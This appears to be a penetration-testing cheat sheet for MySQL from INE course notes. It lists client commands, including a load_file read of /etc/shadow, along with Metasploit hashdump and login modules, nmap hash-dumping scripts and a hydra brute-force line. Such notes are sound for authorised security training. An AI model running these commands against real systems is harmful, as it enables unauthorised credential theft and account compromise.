 # SQL

## mysql
```
mysql -h [IP-ADDRESS] -u [USERNAME]
```
```
show databases;
```
```
use [DATABASE];
```
```
show [TABLES];
```
```
select count(*) from [TABLE];
```
```
select * from [TABLE];
```
```
select load_file("/etc/shadow");
```
```
help
```

## Metasploit
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```
```
use auxiliary/scanner/mysql/mysql_hashdump
```
```
use auxiliary/scanner/mysql/mysql_login
```
show advanced options:
```
advanced
```

## nmap
* --script=mysql-empty-password
* --script=mysql-info
* --script=mysql-users --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-databases --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-variables --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-dump-hashes --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-query --script-args="query='select * from [TABLE];',username='[USERNAME]',password='[PASSWORD]'"
* --script=mysql-audit --script-args="mysql-audit.username='[USERNAME]',mysql-audit.password='[PASSWORD]',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

## Hydra
```
hydra -l [USERNAME] -P [WORDLIST-PATH] mysql
```

### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
